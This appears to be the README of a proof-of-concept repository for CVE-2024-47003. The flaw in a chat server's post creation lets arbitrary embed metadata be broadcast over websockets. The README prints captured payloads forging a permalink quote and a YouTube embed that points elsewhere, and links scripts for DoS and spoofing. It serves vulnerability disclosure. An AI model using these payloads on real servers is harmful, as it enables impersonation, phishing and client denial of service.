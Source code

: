 # CVE-2024-47003

## Impact

Able to send posts with arbitrary metadata e.g. embeds

Can be used for

- DoS (client side)
- impersonating people (permalinks to messages that don't exist)
- phishing (via e.g. youtube link pointing to somewhere else)
- probably a lot more...

### DoS

![dos demo](./assets/dos.mp4)

### Customizable Permalink

![fully customizable permalink](./assets/fully-customizable-permalink.png)

### Youtube Embeds

![customizable url for youtube embed](./assets/customizable-url-youtube-embed.png)

![customizable title for youtube embed](./assets/customizable-title-youtube-embed.png)

## Exploitation

This works because the `metadata` we specify when creating a post gets broadcasted via websockets.
The arbitrary metadata from that isn't actually saved to the database.

### DoS

See [Exploit](./scripts/dos.ts) used in [demo](./assets/dos.mp4)

### Customizable Permalink

See [Exploit](./scripts/index.ts) used for [screenshot](./assets/fully-customizable-permalink.mp4)

#### Post from WS Connection

```json
{
  "event": "posted",
  "data": {
    "channel_display_name": "@arthurd",
    "channel_name": "1wt8aoiskjg99dap81jx4zjejc__w1bycrx7apy3xn31j7dyszahfa",
    "channel_type": "D",
    "mentions": "[\"w1bycrx7apy3xn31j7dyszahfa\"]",
    "post": "{\"id\":\"ju9uuu3xnjy1pymrp8siyk3t1o\",\"create_at\":1717763281641,\"update_at\":1717763281641,\"edit_at\":0,\"delete_at\":0,\"is_pinned\":false,\"user_id\":\"1wt8aoiskjg99dap81jx4zjejc\",\"channel_id\":\"ucatpix4girt5rp3w4xunng14o\",\"root_id\":\"\",\"original_id\":\"\",\"message\":\"\",\"type\":\"\",\"props\":{\"previewed_post\":\"96nffx8oztncuyyxq7nj7p8seh\"},\"hashtags\":\"\",\"pending_post_id\":\"\",\"reply_count\":0,\"last_reply_at\":0,\"participants\":null,\"metadata\":{\"embeds\":[{\"type\":\"permalink\",\"data\":{\"channel_display_name\":\"can-be-anything-i-want\",\"channel_id\":\"\",\"channel_type\":\"O\",\"post\":{\"channel_id\":\"doesnt-matter\",\"hashtags\":\"\",\"id\":\"96nffx8oztncuyyxq7nj7p8seh\",\"last_reply_at\":0,\"message\":\"This can be whatever i want\",\"metadata\":{},\"original_id\":\"\",\"participants\":[],\"props\":{},\"reply_count\":0,\"root_id\":\"\",\"type\":\"\",\"user_id\":\"teur4prbifnh7dhq5rh3cp7q4c\"},\"post_id\":\"96nffx8oztncuyyxq7nj7p8seh\",\"team_name\":\"\"}}]}}",
    "sender_name": "@arthurd",
    "set_online": true,
    "should_ack": true,
    "team_id": ""
  },
  "broadcast": {
    "omit_users": null,
    "user_id": "w1bycrx7apy3xn31j7dyszahfa",
    "channel_id": "ucatpix4girt5rp3w4xunng14o",
    "team_id": "",
    "connection_id": "",
    "omit_connection_id": ""
  },
  "seq": 10
}
```

#### Get Request of that Post

```json
{
  "id": "ju9uuu3xnjy1pymrp8siyk3t1o",
  "create_at": 1717763281641,
  "update_at": 1717763281641,
  "edit_at": 0,
  "delete_at": 0,
  "is_pinned": false,
  "user_id": "1wt8aoiskjg99dap81jx4zjejc",
  "channel_id": "ucatpix4girt5rp3w4xunng14o",
  "root_id": "",
  "original_id": "",
  "message": "",
  "type": "",
  "props": {
    "previewed_post": "96nffx8oztncuyyxq7nj7p8seh"
  },
  "hashtags": "",
  "pending_post_id": "",
  "reply_count": 0,
  "last_reply_at": 0,
  "participants": null,
  "metadata": {}
}
```

### Youtube Embeds

See [Exploit](./scripts/youtube.ts) used for screenshots:

- [custom url](./assets/customizable-url-youtube-embed.png)
- [other stuff such as title](./assets/customizable-title-youtube-embed.png)

#### Post from WS connection (custom url)

```json
{
  "event": "posted",
  "data": {
    "channel_display_name": "@arthurd",
    "channel_name": "1wt8aoiskjg99dap81jx4zjejc__w1bycrx7apy3xn31j7dyszahfa",
    "channel_type": "D",
    "mentions": "[\"w1bycrx7apy3xn31j7dyszahfa\"]",
    "post": "{\"id\":\"rpaioun83fds5ppf78bstpp3pw\",\"create_at\":1717764679114,\"update_at\":1717764679114,\"edit_at\":0,\"delete_at\":0,\"is_pinned\":false,\"user_id\":\"1wt8aoiskjg99dap81jx4zjejc\",\"channel_id\":\"ucatpix4girt5rp3w4xunng14o\",\"root_id\":\"\",\"original_id\":\"\",\"message\":\"\",\"type\":\"\",\"props\":{},\"hashtags\":\"\",\"pending_post_id\":\"\",\"reply_count\":0,\"last_reply_at\":0,\"participants\":null,\"metadata\":{\"embeds\":[{\"type\":\"opengraph\",\"url\":\"https://github.com/c0rydoras?ignore=https://youtube.com/watch?v=dQw4w9WgXcQ\",\"data\":{\"audios\":null,\"description\":\"The official video for “Never Gonna Give You Up” by Rick Astley. The new album 'Are We There Yet?' is out now: Download here: https://RickAstley.lnk.to/AreWe...\",\"determiner\":\"\",\"images\":[{\"height\":720,\"secure_url\":\"\",\"type\":\"\",\"url\":\"https://i.ytimg.com/vi/dQw4w9WgXcQ/maxresdefault.jpg\",\"width\":1280}],\"locale\":\"\",\"locales_alternate\":null,\"site_name\":\"YouTube\",\"title\":\"Rick Astley - Never Gonna Give You Up (Official Music Video)\",\"type\":\"video.other\",\"url\":\"https://www.youtube.com/watch?v=dQw4w9WgXcQ\",\"videos\":null}}]}}",
    "sender_name": "@arthurd",
    "set_online": true,
    "should_ack": true,
    "team_id": ""
  },
  "broadcast": {
    "omit_users": null,
    "user_id": "",
    "channel_id": "ucatpix4girt5rp3w4xunng14o",
    "team_id": "",
    "connection_id": "",
    "omit_connection_id": ""
  },
  "seq": 4
}
```

#### Get Request of that Post

```json
{
  "id": "rpaioun83fds5ppf78bstpp3pw",
  "create_at": 1717764679114,
  "update_at": 1717764679114,
  "edit_at": 0,
  "delete_at": 0,
  "is_pinned": false,
  "user_id": "1wt8aoiskjg99dap81jx4zjejc",
  "channel_id": "ucatpix4girt5rp3w4xunng14o",
  "root_id": "",
  "original_id": "",
  "message": "",
  "type": "",
  "props": {},
  "hashtags": "",
  "pending_post_id": "",
  "reply_count": 0,
  "last_reply_at": 0,
  "participants": null,
  "metadata": {}
}
```
